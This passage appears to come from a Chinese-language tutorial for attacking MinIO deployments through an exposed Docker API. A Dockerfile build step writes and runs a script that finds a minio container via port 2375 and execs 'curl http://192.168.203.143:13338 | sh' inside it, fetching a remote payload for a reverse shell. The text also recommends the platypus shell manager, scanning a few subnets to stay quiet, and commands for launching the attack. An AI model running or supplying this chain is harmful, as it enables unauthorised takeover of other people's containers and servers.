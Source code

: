    ```bash
   FROM alpine:3.13
   
   RUN apk add curl bash jq
   
   RUN set -ex && \
   { \
   	echo '#!/bin/bash'; \
   	echo 'set -ex'; \
   	echo 'target="http://192.168.203.143:2375"'; \
   	echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
   	echo 'for item in ${jsons[@]}; do'; \
   	echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
   	echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
   	echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
   	echo '        break'; \
   	echo '    fi'; \
   	echo 'done'; \
   	echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"curl http://192.168.203.143:13338 | sh\"]}" | jq -r ".Id")'; \
   	echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
   } | bash
   ```

   注意修改这串命令`curl http://192.168.203.143:13338 | sh`

   这里可以使用nc的反弹命令，但nc长时间监听被别人扫描会有一些花里胡哨的东西，且nc只能管理单个shell，这里我用了一款shell管理器 [platypus](http://platypus-reverse-shell.vercel.app/)

   启动 platypus,便会生成链接地址

   `./platypus_linux_amd64`

![image-20230520171912576](http://qn.laohuan.xin/image-20230520171912576.png)

将生成的命令替换为dockerfile的命令即可

3. 修改脚本相关注释内容即可

   ![image-20230520172114318](http://qn.laohuan.xin/image-20230520172114318.png)

我只设置了爆破c段，我觉得挑几个常见的c段爆破一下碰下运气就行了，没必要弄那么大的动静把内网来一遍

![image-20230520172310029](http://qn.laohuan.xin/image-20230520172310029.png)

确保这个目录下存在这三个文件，开启相关服务就可以直接运行脚本了

![image-20230520172439983](http://qn.laohuan.xin/image-20230520172439983.png)

`php -S 0.0.0.0:80`

`python3 minio.py`

![Snipaste_2023-05-14_22-08-01](http://qn.laohuan.xin/Snipaste_2023-05-14_22-08-01.png)

